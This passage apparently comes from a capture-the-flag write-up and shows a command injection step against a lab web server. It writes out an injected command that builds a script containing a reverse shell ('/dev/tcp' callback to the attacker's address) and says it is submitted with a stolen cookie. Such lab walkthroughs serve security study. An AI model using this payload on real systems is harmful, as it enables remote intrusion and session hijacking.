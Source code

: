 
# Command injection
Attempting to exploit this to execute a reverse shell fails. Another option is to attempt to create a reverse shell in a file, and then subsequently call the file.

Try to create a reverse shell on the server, the following command is injected into the field:

`echo '#!/bin/bash' > reverse_shell.sh && echo 'sh -i >& /dev/tcp/10.10.14.6/4321 0>&1' >> reverse_shell.sh`

The command is URL-encoded and submitted, making sure to include the stolen cookie in the HTTP headers.

<img src="/assets/img/2024/2024-03-headless/data-payload.png" alt="data-payload.png" class="auto-resize">

To validate that the file has been created successfully, another `ls` command can be sent.
